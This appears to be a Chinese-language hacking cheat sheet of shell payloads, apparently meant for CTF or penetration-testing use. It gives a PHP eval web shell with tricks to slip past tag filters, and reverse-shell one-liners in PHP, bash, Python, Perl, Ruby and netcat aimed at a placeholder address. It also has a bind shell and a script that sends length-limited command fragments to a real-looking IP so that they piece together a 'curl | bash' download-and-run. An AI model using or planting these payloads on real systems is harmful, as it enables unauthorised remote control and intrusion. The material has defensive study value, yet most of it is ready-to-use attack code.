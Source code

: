 # Shell

## 几种特殊符号

1. 反引号 `` ` ``
2. 文件重定向符 `` > <``
3. 环境变量 ``${}``

## PHP

一句话：

```php
<?php eval($_REQUEST['eki']);?>
```

``eval``也可以改成``system、assert``

### Bypass:

1. 当仅禁用``<?php``时，可以使用``<?    ?> ``
    
   要求：需要开启短标签开关，``short_open_tag``

2. 当禁用``<?php``以及``?>``时，还可以使用``<?=``不需要闭合标签 
    
    要求：PHP版本>PHP 5.4.0

3. 禁用了``<?、 <?php、 ?>``时，可以使用asp标签``<%  %>``

    要求：asp_tags设成On


4. ``<script language="php">system($_REQUEST['eki']);</script>`` 
   
    等价于``<?php system($_REQUEST['eki']);?>``

    要求：php7之前

命令行反弹Shell

```bash
php -r '$sock=fsockopen("127.0.0.1",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

## BASH

```bash
bash -i >& /dev/tcp/127.0.0.1/233 0>&1
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Perl

```perl
perl -e 'use Socket;$i="127.0.0.1";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",233).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```bash
nc -e /bin/sh 127.0.0.1 2333
```

正向弹

靶机：
```bash
nc -lvvp 2333 -e /bin/bash
```

攻击机
```
nc ip 2333
```
## 获取Bash交互行

```
python -c "import pty;pty.spawn('/bin/bash')"
```

## 字符限制绕过

以hackme为例
```python
import requests
from time import sleep
from urllib import quote
import base64

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl <IPHEX> | ba sh;"
    # 
    '>\;',  
    '>sh\\',
    '>ba\\', 
    '>\|\\',
    '>XX\\', 
    '>XX\\', 
    '>XX\\', 
    '>XX\\',
    '>0x\\',
    '>\ \\', 
    '>rl\\',
    '>cu\\',

    'sh x', 
    'sh g',
]


for i in payload:
    assert len(i) <= 4
    header ={
        "User-Agent":"Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36",
        "Cookie":"PHPSESSID=1af6e5b03d0df7c07ae2e548bd44183c"
    }
    data ={
        "url":"compress.zlib://data:@127.0.0.1/plain;base64,"+base64.b64encode(i)
    }
    r = requests.post(url='http://121.36.222.22:88/core/index.php',data=data,headers=header)
    print r.text
    print i
    sleep(0.1)
```

## 绕过cat

1. ``\``
2. ``rev,more``